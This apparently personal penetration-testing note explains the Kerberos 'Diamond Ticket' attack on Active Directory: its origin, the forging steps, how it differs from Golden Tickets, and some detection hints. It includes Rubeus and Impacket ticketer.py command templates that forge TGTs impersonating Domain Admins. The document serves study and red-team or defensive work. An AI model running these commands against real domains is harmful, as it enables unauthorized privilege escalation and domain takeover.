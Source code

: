 # Diamond-Tickets

Probably originate from Blackhat 2015 by [Tal Be’ery](https://twitter.com/talbeerysec) and [Michael Cherny](https://twitter.com/chernymi). In their [talk](https://www.youtube.com/watch?v=7qbSFYVQJ7A), and subsequent [brief](https://www.blackhat.com/docs/eu-15/materials/eu-15-Beery-Watching-The-Watchdog-Protecting-Kerberos-Authentication-With-Network-Monitoring-wp.pdf), '*WATCHING THE WATCHDOG: PROTECTING KERBEROS AUTHENTICATION WITH NETWORK MONITORING*' - [TrustedSec - Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/) - they termed an attack 'Diamond PAC Attack'
1. Requesting a TGT without a Privilege Attribute Certificate (PAC)
2. Ensuring the service account for the service that was to be accessed does not have the ‘[NA’ bit set in its UserAccountControl (UAC) attribute](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557)
3. Forging a PAC and signing it with the **KRBTGT** key
4. Injecting it into the resulting Service Ticket (ST) by including it in the *enc_authorization_data* section of the TGS-REQ

[Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond) and [TrustedSec - Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/)  - *"When forging tickets, before [November 2021 updates](https://msrc.microsoft.com/update-guide/releasenote/2021-Nov), the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets."* - Diamond tickets work, but Diamond PAC attack does not.

A Diamond ticket are a TGT which can be used to access any service as any user. Forged by modifying the fields of a legitimate TGT that was issued by a DC.
- Unlike [[Golden-Tickets]], require access to the AES256 key
- Request a TGT
- Decrypting the TGT with krbtgt hash
- Modifying the desired fields of the ticket
- Re-Encrypting

Diamond tickets are similar to [[Golden-Tickets]], but due to Golden tickets been forged offline they are detectable:
- Look for TGS-REQs that have no corresponding AS-REQ.
- Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.
- Weird requests to access resource from where an identity is not tied to resource
Whereas Diamond Tickets are better due to:
- TGS-REQs will have a preceding AS-REQ.
- The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

Use [[Rubeus-Cheatsheet]]
```powershell
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid
# Example - Hacker recipes
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
# Example - Hacktricks
.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512
# Explaination from Hacktricks
# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash. 
```

or [[Impacket-Cheatsheet]]
```python
ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
```

## References

[Hacktricks - Diamond Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket)
[Hacker Recipes Diamond Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond) 
[TrustedSec CoAuthored with Charlie Clark- Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/)
[Charlie Clark - CoAuthor of Diamond in the Ruff Trusted Sec](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)